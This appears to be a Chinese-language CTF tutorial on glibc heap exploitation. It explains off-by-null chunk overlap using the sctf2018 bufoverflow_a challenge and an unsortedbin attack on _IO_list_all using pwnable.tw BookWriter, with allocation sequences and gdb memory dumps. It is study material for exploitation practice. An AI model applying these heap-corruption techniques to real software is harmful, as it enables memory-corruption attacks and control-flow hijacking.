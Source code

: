 # The Method of Heap Use In CTF #
本篇文章的目的旨在对堆的一些使用方法和技巧进行总结，会不定期的更新。
## 1. off by null ##
以 **sctf2018 bufoverflow\_a** 题目为例，off by null的最终目的是为了完成chunk overlap，从而可以对其中的某些chunk内容进行改写。
### 利用方法1： ###
通过改写下一个chunk的size字段，从而将原空闲chunk的大小缩小。  
例如如下所示代码：
  
	Alloc(0x88)		#0
	Alloc(0x400)	#1
	Alloc(0x110)	#2
	Alloc(0x88)		#3

	Delete(0)
	Delete(1)
	Alloc(0x88)		#0
	Fill("a"*0x88)	//假设Fill函数中存在off by null漏洞，会多写一个"\x0"
此时，我们可以看看对于chunk1 的头部字段，Fill()函数执行前后的变化情况。  
	
	Fill()前
	0x0000000000000000	0x0000000000000091		<--chunk0
	......................................
	......................................
	0x0000000000000000	0x0000000000000000
	0x0000000000000000	0x0000000000000411		<--chunk1
	......................................
	......................................
	0x0000000000000410	0x0000000000000110		<--chunk2	
	
	Fill()后
	0x0000000000000000	0x0000000000000091		<--chunk0
	......................................
	......................................
	0x6161616161616161	0x6161616161616161
	0x6161616161616161	0x0000000000000400		<--chunk1
	......................................
	......................................
	0x0000000000000410	0x0000000000000110		<--chunk2		
			
可以看到，chunk1的大小减少了0x10byte。然后再次进行chunk的申请。  
	
	Alloc(0x88)		#1
	Alloc(0x88)		#4
	Alloc(0x200)	#5
	Alloc(0xc8)		#6
新申请的chunk1\_new，chunk4，chunk5，chunk6会占用之前chunk1\_old（大小为0x400）的位置。  
实际动态调试结果如下图所示：  

	0x5555557580b0:	0x6161616161616161	0x0000000000000091		<--chunk1
	0x5555557580c0:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
	0x5555557580d0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557580e0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557580f0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758100:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758110:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758120:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758130:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758140:	0x0000000000000090	0x0000000000000090		<--chunk4
	0x555555758150:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557581c0:	0x0000000000000000	0x0000000000000000
	0x5555557581d0:	0x0000000000000000	0x0000000000000211		<--chunk5
	0x5555557581e0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557583d0:	0x0000000000000000	0x0000000000000000
	0x5555557583e0:	0x0000000000000000	0x00000000000000d1		<--chunk6
	0x5555557583f0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557584a0:	0x0000000000000000	0x0000000000000000
	0x5555557584b0:	0x0000000000000000	0xcccccccccccccccd
	0x5555557584c0:	0x0000000000000410	0x0000000000000110		<--chunk2
	0x5555557584d0:	0x0000000000000000	0x0000000000000000

此时将chunk1\_new释放，再将chunk2释放。  

	Delete(1)
	Delete(2)
	Delete(5)
由于chunk2的presize字段的值仍为0x410，且其pre\_inuse为0（表示上一个块也处于释放状态）。释放chunk2会出发前向合并，形成一个包含chunk1，chunk4，chunk5，chunk6和chunk2的大块，如下图所示：

	gdb-peda$ x/150gx 0x5555557580c0-0x10
	0x5555557580b0:	0x6161616161616161	0x0000000000000521		<--原chunk1
	0x5555557580c0:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
	0x5555557580d0:	0x0000000000000000	0x0000000000000000
	0x5555557580e0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557580f0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758100:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758110:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758120:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758130:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758140:	0x0000000000000090	0x0000000000000090		<--chunk4
	0x555555758150:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557581c0:	0x0000000000000000	0x0000000000000000
	0x5555557581d0:	0x0000000000000000	0x0000000000000211		<--chunk5
	0x5555557581e0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557583d0:	0x0000000000000000	0x0000000000000000
	0x5555557583e0:	0x0000000000000000	0x00000000000000d1		<--chunk6
	0x5555557583f0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557584a0:	0x0000000000000000	0x0000000000000000
	0x5555557584b0:	0x0000000000000000	0xcccccccccccccccd
	0x5555557584c0:	0x0000000000000410	0x0000000000000110		<--原chunk2
	0x5555557584d0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557584e0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557584f0:	0xcccccccccccccccc	0xcccccccccccccccc


### 利用方法2： ###


## 2.Unsortedbin Attack ##
主要利用chunk分配过程中，如果使用unsortedbin进行分配，会有一个拆链的操作，该操作可以实现任意地址写固定值（unsortedbin地址）的操作，具体代码如下图0所示。  

![0](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack.JPG)  

其中bck为当前待切分chunk（victim）的bk值，即bck = victim->bk。因此我们在利用时，可以伪造victim的bk值，使其等于我们想要修改地址-0x10的地址（64bit，32bit在为-0x8），这样就可以改写改地址的内容为一个很大的值（unsortedbin的地址）。

以pwnable.tw的一道题目（BookWriter）为例进行讲解。  

该题目类型为菜单类题目，通过漏洞点可以进行堆块的越界写，但没有提供free函数，题目中一个考点就是如何在没有free的情况下泄露libc的地址，使用的方法为修改topchunk\_size，当topchunk\_size不满足分配要求时，会先将该chunk申请，然后再进行free加入unsortedbin中，然后再在另一块区域分配一个新的topchunk。  

完成上述操作后heap布局如下图1所示：  

![1](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack1.JPG)

之后为了能够控制程序执行流程，需要改写\_IO\_list\_all为unsortedbin地址，在这我们使用的方法就为unsortedbin attack。在这里有一个需要注意的地方就是什么时候main\_arena中last\_remainder字段会发生变化。具体代码如下图2所示：  

![2](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack2.JPG)  

可以看到只有当前申请chunk大小（nb）为smallbin时，且unsortedbin中没有chunk大小正好等于申请大小（nb），此时会将所有chunk先放入到对应bin链表中，然后选择一个大于nb的最小chunk，将该chunk切分后将其加入unsortedbin中，并设置last\_remainder字段。  

然后再结合下图3所示代码（last\_remainder字段发生改变的条件）：  
![3](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack3.JPG)  

可以推断出如下结论：  
**注：last\_remainder字段可以认为是为smallbin设计的，largebin不会用到它。并且如果last\_remainder字段有值，则unsortedbin中肯定只存在一个chunk。**

有了上述理论方面的依据，下面我们就可以根据实际情况来看看如何修改\_IO\_list\_all字段了。

如图2所示，当前unsortedbin中只有一个大小为0xf30的chunk A，且last\_remainder字段为null，此时如果我们申请一个smallbin，则会先将chunk A从unsortedbin中取出，放入对应的largebin中。然后由于申请大小（nb）在对应bin链表中找不到合适的空闲chunk，又会将chunk A再从largebin链表中取出，进行切分后再次放入unsortedbin中，并设置last\_remainder字段。  

实际运行结果如下图4所示（再次申请了一个大小为0x70的chunk）：  
![4](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack4.JPG)  
可以看到此时last\_remainder已经有值，且unsortedbin等于last\_remainder，之后的smallbin申请可以使用unsortedbin直接分配。

**关键点！！！！！**  
如果我们可以一直使用unsortedbin中的唯一chunk直接进行切分分配，但unsortedbin attack的触发条件又为不使用该方式进行分配（因为必须要触发拆链操作），这不互相矛盾吗？

注意仔细看图3中，可以使用unsortedbin直接分配的条件：  
1. 申请chunk大小nb为smallbin  
2. bck == unsorted\_chunks(av)，即当前unsortedbin中只有一个chunk  
3. victim == last\_remainder  
4. 切分后的剩余chunk大小要大于chunk允许的最小值

注意其中的条件2，如果我们能够改写victim的bk字段，那么bck = victim->bk = X（伪造值） != unsorted\_chunks(av)，则不会进行该分支，会进行下面的拆链操作。



